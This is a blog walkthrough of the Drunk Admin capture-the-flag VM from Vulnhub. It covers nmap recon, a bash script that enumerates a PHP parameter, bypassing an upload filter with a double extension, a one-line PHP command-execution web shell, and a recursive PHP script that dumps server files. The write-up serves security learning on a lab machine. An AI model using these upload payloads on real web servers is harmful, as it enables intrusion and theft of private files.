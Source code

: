```yaml
---
layout: blog
title: Drunk Admin challenge
date:   2017-03-07 19:30:00 +0100
categories: itsec
---
```


## Intro
This walkthrough is about the [Drunk Admin](https://www.vulnhub.com/entry/drunk-admin-web-hacking-challenge-1,14/) challenge, I've found on [Vulnhub](https://www.vulnhub.com/). Just download the zip file, and create a VirtualBox machine from it, and you are ready to go.

## Recon
You can just log in to the console of the virtual machine with the credentials root:toor to find out the ip, or run the command `nmap -sP 192.168.58.1/24` for a ping sweep. Just make sure to use your own ip range. In my case, the host is 192.168.58.101, so I will use this address later.
Let's check the open ports of the machine, to find out possible vulnerable services, with `sudo nmap -A -O -p 1-65535 192.168.58.101`. The result is the following:
```
Starting Nmap 7.40 ( https://nmap.org ) at 2017-03-06 23:11 CET
Nmap scan report for 192.168.58.101
Host is up (0.00063s latency).
Not shown: 64998 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 5.5p1 Debian 6+squeeze1 (protocol 2.0)
| ssh-hostkey: 
|   1024 57:a2:04:3d:6e:e5:01:7b:b4:c6:e5:f9:76:25:8a:8a (DSA)
|_  2048 66:9a:ee:a2:2a:1a:59:47:b9:c5:50:da:a6:96:76:16 (RSA)
8880/tcp open  http    Apache httpd 2.2.16 ((Debian))
|_http-server-header: Apache/2.2.16 (Debian)
|_http-title: Tripios
MAC Address: 08:00:27:06:12:7C (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.26 - 2.6.35, Linux 2.6.32
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.63 ms 192.168.58.101

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 164.06 seconds
```
Great, this means we have a running apache on port 8880, let's check it in a browser. It should look like this:
![Drunk Admin home page]({{ site.url }}/assets/images/drunk-admin-1.png)

## Explore the website
If you click on the PHP link on the bottom of the page, it leads to http://192.168.58.101:8880/myphp.php?id=102 . This is very suspicios, it seems like the id parameter can be tricked. There is a small shell script to scrape all the results in the range of 1 to 200, excluding the ones, which are protected by the php script, saying "Try harder".
[enummyphp.sh](https://github.com/misnyo/vulnhub-codes/blob/master/drunk-admin/enummyphp.sh)
```bash
#!/bin/bash
for N in {1..200}
do
    echo $N
    curl "http://192.168.58.101:8880/myphp.php?id=$N" > tmp
    if ! grep -q "Try harder" "tmp"; then
        cp tmp "$N.html"
        echo "http://192.168.58.101:8880/myphp.php?id=$N"
    fi
done
```
The results of the following script are:
* 101.html
* 102.html
* 104.html
* 108.html
* 116.html
* 132.html
* 164.html
* 99.html

All are phpinfo results, 99 is the full one, and 132 is the $\_SERVER variables. However, it is not a real exploit, so let's try to dig deeper. However, this information can be useful in the future.

## Exploit the website

Going through the website, the low hanging fruit is upload.php, which uploads a user specified picture, and provides a link for it, which looks like some hash, plus the extension. So the image upload works fine, as designed, but what happens, if I try to upload a php file? It seems like there is a restriction about file extensions, which is a great security feature, but does it work as designed?

Let's try to upload a file named sample.php.jpg. It doesn't display an error, however it doesn't display and image as well. After some digging in the request/response data, there is a suspicios cookie, named trypios, which contains a hash. What if I try to access this file in a way how images are stored, but with the hash plus php extesion? It actually works, and displays the result of the `phpinfo();` function. This vulnerability by [OWASP](https://www.owasp.org/) is specified as [Unrestricted File Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload). Let's see what we can do with this.

My first guess was to try to get a [Command Injection](https://www.owasp.org/index.php/Command_Injection), by uploading a vulnerable php script, which enables a user to execute any command under the web server's user privileges. It looks like this:

```php
<?php
exec($_GET['cmd']);
?>
```

Which results in a "Oh, you are naughty" message. After further investigation, my guess was that the upload script somehow verifies the content of the uploaded file, and disallows either the php function call exec, or the access of the variable $\_GET. But this doesn't stop me to enumerate the whole content of the webserver's root directory!

## Can I haz all the files?

So I created a simple php script to go through the whole content of the webserver, and print it. For the first try, it gave me some garbage, obviously the binary content of the uploaded images were present, so I had to exclude those. But what exclusion rule would be better, than the drunk admin's own?:)

[dirlist.jpg.php](https://github.com/misnyo/vulnhub-codes/blob/master/drunk-admin/dirlist.jpg.php)
```php
<?php 
function sd($dir){
	$dc = scandir($dir);
	foreach($dc as $f){
		if($f == "." || $f == ".." || preg_match("/^.*\.(bmp|jpeg|gif|png|jpg).*$/i", $f)) continue;
		$f = $dir."/".$f;
		print $dir.$f."\n";
		if(is_dir($f)){
			print "dir";
			sd($f);
		}elseif(is_file($f)){
			print("<h3>$f</h3>");
			print_r(file_get_contents($f));
		}
    }
}
sd("../");
?>
```
Let's see what we got! There is a file, which is not accessible by the public, it has been disabled by an .htaccess configuration rule, which is a great practice, but php can read it regardless, and this is our next step. The filename is .proof, and the content is:

```
# Drunk Admin Challenge #
#     by @anestisb  #
#########################

bob> Great work.
bob> Meet me there.
...> ?
bob> What? You don't know where?
bob> Work a little more your post
     exploitation skills.

Secret Code:
TGglMUxecjJDSDclN1Ej

Mail me your methods at:
anestis@bechtsoudis.com
```
Gotcha. At least we know the message, but not the place. What is this secret code for? Let's try to dig deeper.

## Soltuion
As we have seen previously, the [mod_userdir](https://httpd.apache.org/docs/2.4/mod/mod_userdir.html) is enabled, which allows users to share their content on the webserver, by creating a directory named public_html in their home directory. What if I'm very greedy, and try to get all the contents of the home directories in the system, by using the php script I used to enumerate the root of the webserver?

So it seems, there is a user called bob, who uses this feature of [Apache](https://httpd.apache.org/). And in the folder /home/bob/public_html, we can find some very interesting content. After trying to input the secret from the previous message to http://192.168.58.101/~bob/, and receiving some garbage, I went through the contents of other php files, eg. encrypt.php. So it seems like bob uses [AES](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard) to hide his secret from us. But this code doesn't return any useful answer, and after checking the actual index.php script, the cipher looks like some base64 encoded string. Decoding the secret with base64, and posting to index.php reveals the last information for the secret meeting:
```
Alice, prepare for a kinky night. Meet me at '35.517286' '24.017637'
```
It's time to travel to Crete!
